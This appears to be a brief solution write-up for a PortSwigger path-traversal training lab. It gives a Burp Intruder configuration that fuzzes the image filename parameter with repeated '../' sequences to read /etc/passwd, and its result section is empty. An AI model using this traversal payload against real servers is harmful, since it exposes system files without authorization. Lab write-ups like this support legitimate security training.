

# [Lab: File path traversal, simple case](https://portswigger.net/web-security/file-path-traversal/lab-simple)

## Lab

This lab contains a file path traversal vulnerability in the display of product images.

To solve the lab, retrieve the contents of the `/etc/passwd` file.

## Solutions

intruder:

- attack type: sniper
- positions: `GET /image?filename=§§etc/passwd HTTP/1.1`
- payloads:
  - type: character blocks
  - base string: `../`
  - min length: 0
  - max length: 30
  - step: 3
- result:
  
